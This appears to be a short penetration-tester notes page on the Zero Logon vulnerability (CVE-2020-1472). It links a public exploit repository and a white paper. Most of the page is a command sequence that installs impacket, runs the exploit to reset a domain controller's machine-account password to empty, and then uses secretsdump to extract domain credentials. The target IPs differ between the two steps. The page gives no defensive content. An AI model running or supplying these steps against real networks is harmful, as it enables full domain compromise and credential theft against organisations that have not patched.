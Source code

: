 # Zero Logon

{% embed url="https://github.com/VoidSec/CVE-2020-1472" %}

a full white paper on this vuln:

{% embed url="https://www.secura.com/blog/zero-logon" %}

## Exploitation

```text
pipenv shell
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python setup.py install
pip install .
cd ~
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
pip install -r requirements.txt
./cve-2020-1472-exploit.py -n domain-controller -t 192.168.56.208
```

Running the script should results in Domain Controller's account password being reset to an empty string.

![](../../../.gitbook/assets/image%20%28231%29.png)

test to see if the password was reseted:

```text
impacket-secretsdump  -no-pass -just-dc MEGACORP.local/Lord_of_Domains\$@192.168.56.118
```

![](../../../.gitbook/assets/image%20%28232%29.png)





